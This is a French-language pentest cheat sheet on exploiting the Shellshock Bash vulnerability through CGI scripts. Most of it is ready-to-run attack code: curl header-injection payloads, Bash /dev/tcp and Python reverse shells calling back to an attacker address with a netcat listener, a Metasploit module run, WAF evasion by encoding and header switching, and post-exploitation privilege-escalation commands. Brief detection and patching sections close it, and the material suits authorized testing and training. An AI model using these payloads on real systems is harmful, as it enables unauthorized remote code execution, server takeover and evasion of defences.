

La vulnérabilité **Shellshock** (CVE-2014-6271) permet l'exécution de code arbitraire via des variables d'environnement mal formées traitées par **Bash**. Cette exploitation est couramment observée sur des serveurs web utilisant des scripts **CGI**.



## Résumé de la vulnérabilité

**Shellshock** affecte **Bash**, permettant d'exécuter du code arbitraire via des variables d’environnement mal formées.

*   Impact : **Remote Code Execution** (**RCE**).
*   Vecteurs : Scripts **CGI** sur **Apache**, **DHCP**, **SSH** (**ForceCommand**).

> [!danger] Condition critique
> Le serveur doit utiliser un environnement **CGI** qui transmet les variables d’environnement au shell.

> [!warning] Attention
> **Shellshock** nécessite que le script **CGI** soit exécuté par une version vulnérable de **Bash**.

## Vérification de vulnérabilité

Requête de test via **curl** :

```bash
curl -A "() { :;}; echo; echo VULNERABLE" http://<IP>/cgi-bin/test.cgi
```

Sortie attendue :

```text
VULNERABLE
```

## Exploitation (Command Injection)

### Syntaxe standard

```bash
curl -A '() { :;}; echo; /bin/bash -c "COMMAND"' http://<IP>/cgi-bin/script.cgi
```

### En-têtes vulnérables

*   `User-Agent`
*   `Referer`
*   `Cookie`
*   `Host`

### Exemples de commandes

```bash
# Voir l'utilisateur
curl -A '() { :;}; echo; /bin/bash -c "whoami"' http://<IP>/cgi-bin/test.cgi

# Ping vers attaquant
curl -A '() { :;}; echo; /bin/bash -c "ping -c 1 10.10.14.10"' http://<IP>/cgi-bin/test.cgi
```

## Reverse Shell

> [!danger] Danger
> L'utilisation de reverse shells peut être détectée par des solutions **EDR**/**IDS**.

### Bash reverse shell

```bash
# Listener
nc -lvnp 9001

# Exploit
curl -A '() { :;}; echo; /bin/bash -c "bash -i >& /dev/tcp/10.10.14.10/9001 0>&1"' http://<IP>/cgi-bin/test.cgi
```

### Python reverse shell

```bash
curl -A '() { :;}; echo; /bin/bash -c "python -c '\''import socket,subprocess,os;s=socket.socket();s.connect((\"10.10.14.10\",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\"])'\''"' http://<IP>/cgi-bin/test.cgi
```

## Fuzzing CGI

Utilisation de **ffuf** pour découvrir les scripts **CGI** (voir également les techniques de **Web Enumeration**) :

```bash
ffuf -u http://<IP>/cgi-bin/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .cgi,.sh,.pl,.py
```

## Outils automatisés

### Nikto

```bash
nikto -h http://<IP> -Plugins "shellshock"
```

### Metasploit

```bash
msfconsole
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS <IP>
set TARGETURI /cgi-bin/test.cgi
set LHOST <attacker_ip>
run
```

## Contournements

> [!tip] Tip
> Toujours tester plusieurs en-têtes HTTP si le `User-Agent` est filtré.

Si certains headers sont filtrés, tester `Referer`, `Cookie` ou `Host` :

```bash
curl -H 'Referer: () { :;}; /bin/bash -c "id"' http://<IP>/cgi-bin/test.cgi
```

### Techniques d'évasion (WAF/IPS)

Pour contourner les signatures basiques cherchant `() { :;};`, il est possible d'utiliser l'encodage ou des variations de syntaxe :

```bash
# Utilisation de caractères d'échappement ou de substitution
curl -H "User-Agent: () { :;}; /bin/bash -c 'sleep 5'" http://<IP>/cgi-bin/test.cgi

# Encodage URL des caractères spéciaux
curl -H "User-Agent: %28%29%20%7B%20%3A%3B%7D%3B%20%2Fbin%2Fbash%20-c%20%27id%27" http://<IP>/cgi-bin/test.cgi
```

## Détection post-exploitation

Sur le serveur victime, consulter les logs pour identifier les tentatives d'exploitation (voir **Apache HTTP Server Exploitation**) :

```bash
cat /var/log/apache2/access.log
```

### Analyse des logs d'exploitation côté serveur

Les logs d'accès Apache enregistrent les en-têtes HTTP. Une exploitation réussie laisse des traces caractéristiques dans `access.log` ou `error.log` :

```bash
# Rechercher les patterns suspects dans les logs
grep "() {" /var/log/apache2/access.log
grep "() {" /var/log/apache2/error.log
```

## Privilege Escalation post-shellshock

Une fois le shell obtenu (souvent avec l'utilisateur `www-data`), il est nécessaire d'élever ses privilèges (voir **Bash Scripting for Pentesters**) :

1.  **Vérification des SUID/SGID** :
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```
2.  **Vérification des capacités (Capabilities)** :
    ```bash
    getcap -r / 2>/dev/null
    ```
3.  **Vérification des tâches cron** :
    ```bash
    cat /etc/crontab
    ```

## Remédiation

La correction principale consiste à mettre à jour le paquet **Bash** vers une version corrigée.

| Système | Commande de mise à jour |
| :--- | :--- |
| Debian/Ubuntu | `sudo apt-get update && sudo apt-get install --only-upgrade bash` |
| RHEL/CentOS | `sudo yum update bash` |

*   **Configuration** : Désactiver les modules **CGI** non nécessaires dans la configuration du serveur web.
*   **WAF** : Configurer des règles pour bloquer les requêtes contenant des chaînes de caractères `() {` dans les en-têtes HTTP.